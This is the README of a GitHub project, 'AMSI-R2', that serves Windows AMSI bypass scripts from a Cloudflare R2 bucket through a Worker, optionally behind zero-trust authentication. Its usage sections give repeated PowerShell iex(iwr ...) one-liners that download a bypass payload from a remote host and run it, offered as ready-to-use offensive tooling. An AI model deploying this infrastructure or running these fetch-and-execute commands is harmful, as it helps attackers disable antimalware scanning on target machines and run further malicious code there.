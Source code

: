 # AMSI-R2

## Summary

Easy access to your amsi bypass script with Cloudflare workers and R2 bucket. If no "payload id" is given, the workers will select one randomly.

## Description

Cloudflare worker function that selects a AMSI bypass file from a folder in a Cloudflare R2 bucket. The idea came from [Flangvik](https://twitter.com/Flangvik) [AMSI.fail](https://github.com/Flangvik/AMSI.fail).

## Features

- Using Cloudflare Workers and R2 feature (free tier is enough)
- Protect your endpoint behind CF zero-trust (free for 1-50 users)
- Deploy with Github actions

## Things you need

- Cloudflare account (you will need your account id)
- Cloudflare API token. Doc [here](https://developers.cloudflare.com/fundamentals/api/get-started/create-token/)
- Create a R2 bucket
- In your new R2 bucket, create a folder which will contain your AMSI bypass scripts. And obviously... add your scripts in that folder.
- Fork or clone the project
- Setup [Github secrets repository](https://docs.github.com/en/actions/learn-github-actions/variables#creating-configuration-variables-for-a-repository)
- A [domain setup in CF](https://developers.cloudflare.com/fundamentals/get-started/setup/add-site/) to use the [custom domain feature](https://developers.cloudflare.com/workers/configuration/routing/custom-domains/).
- You don't have to do any modifcation in `wrangler.toml` (except if you want to change the name of your worker or if you don't want to use a custom domain). We are using Github secrets to setup the `wrangler.toml` file.

note: to use without custom domain(not recommended), you will need to modify 2 things:

- remove the 3rd sed command in `.github/workflows/deploy.yml`
- remove the route section in `wrangler.toml`

## Installation

```bash
# fork the project
# setup secrets, R2, etc.
git clone https://github.com/<your-user>/AMSI-R2.git
cd AMSI-R2
# ...
git push -u origin main
# go see your workers in cloudflare interface
```

## How to use

```bash
# ex: random
curl "https://subdomain.yourdomain.com/<folder-name>"
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>');
# specific amsi bypass script
curl "https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>"
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>');
###
curl "https://amsi-r2.example.com/amsibypass"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass');
#
curl "https://amsi-r2.example.com/amsibypass?payload=2"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2');
```

## How to use with CF zero-trust

- Generate [service auth token](https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/).
- Add worker domain in CF zero-trust [application section](https://developers.cloudflare.com/cloudflare-one/applications/configure-apps/self-hosted-apps/). During the creation, setup a rule that allows your service token.

```bash
# curl command to access behind the zero-trust
curl "https://amsi-r2.example.com/amsibypass" -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
#
curl "https://amsi-r2.example.com/amsibypass?payload=2" -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
```

## Todo

Integrate the logic/obfuscation of [AMSI.fail](https://github.com/Flangvik/AMSI.fail)

## More ?

You want something with a UI ? Take a look at [Some-R2-Explorer](https://github.com/service-yack/Some-R2-Explorer)

## Credits

- [Flangvik](https://twitter.com/Flangvik)
- [somecanadian](https://github.com/som3canadian)
